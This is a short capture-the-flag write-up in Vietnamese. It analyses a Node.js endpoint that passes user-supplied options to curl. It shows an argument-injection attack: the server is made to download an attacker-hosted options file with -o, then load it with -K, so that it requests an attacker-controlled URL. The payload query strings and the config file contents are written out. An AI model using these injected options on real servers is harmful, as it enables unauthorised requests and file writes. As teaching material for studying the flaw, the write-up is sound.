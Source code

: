 ```js
            return res.json({ success: false, message: "Invalid option" });
        }

        // check method
        if (opt === "-d" || ["GET", "POST"].includes(data)) {
            args.push(opt, data);
        }
    }

    cp.spawn('curl', args, { timeout: 2000, cwd: "/tmp" }).on('close', (code) => {
        // save result to database
        res.json({ success: true, message: `The site is ${code === 0 ? 'up' : 'down'}` });
    });
});
```

Phần này sẽ lấy URL của chúng ta và kiểm tra nó sau đó kiểm tra phần `opt` nếu nó qua được phần kiểm tra thì sẽ thực thi lệnh curr với các options mà ta thêm vào

Phần kiểm tra opt khá là `chặt`. Đầu tiên kiểm tra xem opt có bắt đầu bằng - và sau đó 1 là 1 ký tự [a-zA-Z] không, tiếp sau đó kiểm tra opt một là `-d` và là data hay là 1 option bất kỳ và có data là GET, hoặc là POST.

Và curl có hỗ trợ một options là -K (--config) option này giúp cho lệnh curl của chúng ta đọc từ một file text và sử dụng nó làm các options. Từ đó suy ra nếu mà có cách nào đó để chúng ta download file options của chúng ta về server và bắt server curl với options đó ta có thể curl tới bất kỳ URL nào

Để thử thì đây là options thử nghiệm

```
--url "http://XXXXXX.requestrepo.com"
user-agent = "yuu"
```


Ta có thể setup một python http server và expose bằng ngrok để và dùng curl để download file bằng cách sau

```
url =xxxxx.NGROK.com/options.txt&opt=-o&data=GET
```

Tiếp tục ta thử xem liệu nó có request đến server của mình với useragent là yuu không

```
url =xxxxxx.webhook.com&opt=-K&data=GET
```

![alt text](assets/wannagame/7.png)
